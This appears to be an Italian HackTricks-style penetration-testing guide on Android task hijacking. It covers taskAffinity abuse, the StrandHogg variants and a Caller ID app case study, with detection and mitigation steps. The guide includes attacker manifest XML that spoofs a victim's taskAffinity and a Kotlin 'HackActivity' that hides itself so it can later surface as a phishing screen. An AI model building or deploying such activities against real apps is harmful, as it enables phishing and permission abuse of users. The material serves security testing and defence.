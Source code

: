# Android Task Hijacking

{{#include ../../banners/hacktricks-training.md}}

## Task, Back Stack and Foreground Activities

In Android, un **task** è essenzialmente un insieme di attività con cui gli utenti interagiscono per completare un lavoro specifico, organizzato all'interno di uno **back stack**. Questo stack ordina le attività in base a quando sono state aperte, con l'attività più recente visualizzata in cima come **foreground activity**. In qualsiasi momento, solo questa attività è visibile sullo schermo, rendendola parte del **foreground task**.

Ecco una rapida panoramica delle transizioni delle attività:

- **Activity 1** inizia come l'unica attività in primo piano.
- L'apertura di **Activity 2** spinge **Activity 1** nel back stack, portando **Activity 2** in primo piano.
- L'avvio di **Activity 3** sposta **Activity 1** e **Activity 2** ulteriormente indietro nello stack, con **Activity 3** ora davanti.
- La chiusura di **Activity 3** riporta **Activity 2** in primo piano, mostrando il meccanismo di navigazione delle attività semplificato di Android.

![https://developer.android.com/images/fundamentals/diagram_backstack.png](<../../images/image (698).png>)

---

## Attacchi di affinità del task

`taskAffinity` indica ad Android a quale task un `Activity` *preferirebbe* appartenere. Quando due attività condividono la stessa affinità, **Android è autorizzato a fonderle all'interno dello stesso back-stack anche se provengono da APK diversi**.

Se un attaccante può posizionare un'attività malevola alla **radice** di quello stack, ogni volta che la vittima apre l'applicazione legittima, l'interfaccia utente malevola sarà la prima cosa che l'utente vede – perfetta per phishing o richieste abusive di permessi.

La superficie di attacco è più ampia di quanto molti sviluppatori pensino perché **ogni attività eredita automaticamente un'affinità pari al nome del pacchetto dell'applicazione** (a meno che lo sviluppatore non imposti `android:taskAffinity=""`). Pertanto, *non fare nulla* lascia già l'app aperta a task hijacking su versioni di Android precedenti alla 11.

### Scenario classico "singleTask / StrandHogg"

1. L'attaccante dichiara un'attività con:
```xml
<activity android:name=".EvilActivity"
android:exported="true"
android:taskAffinity="com.victim.package"
android:launchMode="singleTask" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
2. L'app malevola viene avviata una volta in modo che il task (con l'affinità contraffatta) esista nei task recenti.
3. Quando l'utente apre successivamente l'applicazione reale, Android trova già un task la cui **affinità radice corrisponde al pacchetto** e porta semplicemente quel task in primo piano.
4. L'interfaccia utente dell'attaccante viene mostrata per prima.

### Variante Default–Affinity (senza `singleTask`) – Studio di caso Caller ID

La vulnerabilità riportata nell'applicazione **Caller ID (caller.id.phone.number.block)** mostra che l'attacco *funziona anche* contro la modalità di avvio `standard` predefinita:

1. L'applicazione dell'attaccante crea un'attività radice falsa e si nasconde immediatamente:
```kotlin
class HackActivity : AppCompatActivity() {
override fun onCreate(savedInstanceState: Bundle?) {
super.onCreate(savedInstanceState)
moveTaskToBack(true)   // mantiene il task nei recenti ma fuori dalla vista
}
}
```
2. Il manifest deve solo copiare il pacchetto della vittima in `taskAffinity`:
```xml
<activity android:name=".HackActivity"
android:exported="true"
android:taskAffinity="com.caller.id.phone.number.block" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
3. Non appena l'utente installa e apre l'app malevola **una volta**, esiste un task la cui affinità è uguale al pacchetto della vittima (ma si trova in background).
4. Quando viene avviata l'applicazione reale Caller ID, Android riutilizza quel task e porta `HackActivity` in primo piano → finestra di phishing/abuso di permessi.

> NOTA: A partire da **Android 11 (API 30)** il sistema *non* colloca due pacchetti che non fanno parte dello stesso UID nello stesso task per impostazione predefinita, mitigando questa particolare variante. Le versioni precedenti rimangono vulnerabili.

---

### StrandHogg 2.0 (CVE-2020-0096) – Hijack del task basato su reflection

Il bollettino di sicurezza di Google di maggio 2020 ha corretto una variante più avanzata chiamata **StrandHogg 2.0**. L'exploit **non si basa affatto su `taskAffinity`**; invece utilizza *reflection* per inserire dinamicamente l'attività dell'attaccante in cima a *ogni* task in esecuzione, bypassando completamente la restrizione “shared-UID” introdotta da Android 11.

Punti chiave:

* Un'app malevola con zero permessi può, una volta aperta, iterare sui task in esecuzione e chiamare API nascoste per **ri-parentare** la propria attività in qualsiasi task.
* Poiché l'attività viene inserita dopo il runtime, né `launchMode` né l'analisi statica del manifest possono rilevare l'attacco in anticipo.
* Corretto retroattivamente inserendo un controllo in **Android 8.0/8.1/9** (SPL di maggio 2020). **Android 10 e versioni successive non sono interessati.**

La rilevazione su dispositivi pre-patch può essere eseguita con `adb shell dumpsys activity activities` e osservando attività sospette il cui nome del pacchetto differisce dall'*affinità* del task.

La mitigazione per i dispositivi legacy è la stessa del classico Task Hijacking **più** verifica in tempo reale (ad esempio, chiamando [`ActivityManager#getRunningTasks`](https://developer.android.com/reference/android/app/ActivityManager#getRunningTasks(int)) e convalidando il proprio nome del pacchetto).

---

## Checklist di rilevamento e sfruttamento

1. **Revisione statica** – Estrai `AndroidManifest.xml` dall'APK target e controlla che ogni `<activity>` (o l'elemento globale `<application>`) contenga `android:taskAffinity=""` (vuoto) **o** un valore personalizzato. Strumenti come:
```bash
# Usando apkanalyzer (Android SDK)
apkanalyzer manifest print app.apk | grep -i taskaffinity

# Usando AXMLPrinter2
java -jar AXMLPrinter2.jar AndroidManifest.xml | grep taskAffinity
```
2. **Revisione dinamica** – Sul dispositivo apri l'app target e elenca i task:
```bash
adb shell dumpsys activity activities | grep -A3 "TASK" | grep -E "Root|affinity"
```
Un task la cui affinità radice è uguale al pacchetto della vittima ma la cui attività superiore appartiene a un *pacchetto diverso* è un campanello d'allarme.
3. Crea un'app malevola come descritto sopra, o usa **[Drozer](https://github.com/WithSecureLabs/drozer)**:
```bash
drozer console connect
run app.activity.start --component com.victim/.MainActivity --action android.intent.action.MAIN
run app.activity.info com.victim
```

---

## Mitigazione

Gli sviluppatori dovrebbero:

* Impostare esplicitamente `android:taskAffinity=""` a livello di `<application>` (raccomandato) **o** dare a ciascuna attività un'affinità unica e privata.
* Per schermi altamente sensibili, combinare quanto sopra con `android:launchMode="singleInstance"` o moderne protezioni [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode).
* Aggiornare il `targetSdkVersion` dell'app e applicare le modifiche comportamentali di **Android 11** in cui i task non sono condivisi tra pacchetti per impostazione predefinita.
* Targetizzare **Android 12 (API 31) o superiore** in modo che l'attributo obbligatorio `android:exported` costringa gli sviluppatori a controllare ogni componente raggiungibile esternamente.
* Considerare l'auto-difesa in tempo reale: interrogare periodicamente `ActivityTaskManager` per garantire che il pacchetto della tua attività superiore corrisponda al tuo.

---

## Tecniche correlate di UI-Hijacking

Il task hijacking è spesso combinato con o sostituito da **tapjacking** (inganno dell'interfaccia utente basato su overlay). La ricerca del 2025 **TapTrap** ha dimostrato che attività *trasparenti* completamente *guidate da animazione* possono bypassare le restrizioni sul tocco dell'overlay introdotte in Android 12–14 e ingannare ancora gli utenti nel concedere permessi pericolosi. Anche se TapTrap non è strettamente *task* hijacking, l'obiettivo finale (clic di phishing) è identico – quindi le valutazioni moderne dovrebbero controllare entrambe le superfici di attacco.

---

## Riferimenti

- [https://blog.dixitaditya.com/android-task-hijacking/](https://blog.dixitaditya.com/android-task-hijacking/)
- [https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html](https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html)
- [Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app](https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md)
- [https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06](https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06)
- [Promon – StrandHogg 2.0 (CVE-2020-0096) technical write-up](https://promon.io/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability)
- [USENIX 2025 – TapTrap: Animation-Driven Tapjacking on Android](https://www.usenix.org/conference/usenixsecurity25/presentation/beer)

{{#include ../../banners/hacktricks-training.md}}

